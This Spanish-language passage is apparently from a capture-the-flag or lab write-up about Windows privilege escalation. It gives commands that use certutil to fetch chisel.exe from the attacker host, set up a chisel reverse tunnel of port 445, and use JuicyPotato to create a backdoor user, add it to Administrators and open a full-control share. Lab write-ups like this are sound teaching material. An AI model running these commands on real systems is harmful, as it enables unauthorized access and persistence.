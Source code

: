 Nos ubicamos en la carpeta donde vamos a descargar `chisel.exe` en la máquina víctima

```bash
cd C:\Windows\Temp\priv
certutil.exe -f -urlcache -split http://10.10.14.2/chisel.exe chisel.exe
```

Descargamos `chisel` para nuestra máquina atacante

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
upx chisel
```

Ejecutamos `chisel` en la máquina atacante

```bash
sudo ./chisel server --reverse -p 1234
```

Ejecutamos `chisel` en la máquina víctima, generando un `port forwarding` del puerto `445`

```bash
chisel.exe client 10.10.14.2:1234 R:445:127.0.0.1:445
```

Ganamos acceso nuevamente y con `JuicyPotato` creamos un usuario en la máquina víctima

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user bastiant1c bast1ant1c! /add" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Verificamos la creación del usuario

```bash
net user
User accounts for \\

-------------------------------------------------------------------------------
Administrator            bastiant1c               dimitris                 
Guest
```

Agregamos el usuario al grupo `Administrators`

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators bastiant1c /add" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Creamos el recurso compartido `attacker` con permisos de administración

```bash
jp.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker=C:\Windows\Temp /GRANT:Administrators,FULL" -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Modificamos el registro para obtener permisos especiales y poder ganar acceso
